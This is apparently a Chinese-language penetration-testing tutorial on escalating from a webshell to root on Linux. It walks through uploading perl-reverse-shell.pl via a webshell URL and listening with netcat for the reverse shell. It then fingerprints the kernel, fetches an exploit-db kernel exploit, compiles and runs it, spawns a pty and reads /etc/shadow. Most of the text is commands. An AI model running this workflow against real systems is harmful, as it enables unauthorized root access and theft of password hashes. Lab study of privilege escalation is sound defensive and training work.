




## 1、简介

通常我们在拥有一个webshell的时候，一般权限都是WEB容器权限，如在iis就是iis用户组权限，在apache 就是apache权限，一般都是权限较低，均可执行一些普通命令，如查看当前用户，网络信息，ip信息等。如果我想进行内网渗透就必须将权限提权到最高，如系统权限 超级管理员权限。

## 2、创建交互shell

linux 提权需要交互shell 

可以使用工具perl-reverse-shell.pl 建立 sockets

http://www.webtester.com/upload/ac11b65c5a7fbb210b069f9c382c8fffmoon.php

菜刀连接

修改perl-reverse-shell.pl的端口及返回sockets主机

 

上传文件到目标服务器

本地使用nc 监听端口

```bash
nc -vvlp 1234 
```

 运行脚本获取交互shell

```bash
chmod +x perl-reverse-shell.pl
./perl-reverse-shell.pl
```



## 3、查看发行版

```bash
cat /etc/issue
cat /etc/*release
```

查看内核版本

```bash
uname -a
```

## 4、查找可用的提权exp

https://www.exploit-db.com/

Linux moonteam-virtual-machine 3.19.0-15-generic #15-Ubuntu SMP Thu Apr 16 23:32:37 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

https://www.exploit-db.com/exploits/37292

## 5、进行提权

在目标机子编译提权exp 如果编译不成功在本地编译后在上传的目标上 

```bash
#编译
gcc exp.c  -o exp
#增加运行权限
chmod +x exp
#运行
./exp
```

 

当前用户从www-data提权到 root,切换shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

查询当前用户 id
查询密文文件

```bash
cat /etc/shadow
```

 

 

 

 

 

 

 

 